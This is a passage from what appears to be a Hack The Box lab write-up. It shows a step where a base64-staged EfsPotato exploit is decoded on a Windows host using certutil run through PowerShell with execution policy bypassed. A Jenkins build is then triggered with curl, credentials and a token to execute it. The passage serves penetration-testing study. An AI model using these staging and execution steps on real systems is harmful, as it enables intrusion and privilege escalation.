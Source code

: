 



Now that we have successfully transferred the base64 contents of our EfsPotato exploit onto the windows host machine, we can decode the contents of the `efspot.b64` file and store the decoded contents in a new file called `efspot.cs`.

To do this, we will use the `certutil` utility within our command:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "certutil -f -decode %TEMP%\resource.temp\efspot.b64 %TEMP%\resource.temp\efspot.cs"`

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_31.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_31.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }


We can now trigger the job again to build with the new command.

```zsh
0x3ds@kali $ curl -X POST -L --user shadows:113cd8cf72a195b55d66f037ad1d0a7331 \
    'http://object.htb:8080/job/shadownedya/build?token=ShadowsAuthToken'

```

We can now refresh our project page and access the Console Output of our newly built job to see that it was successful.

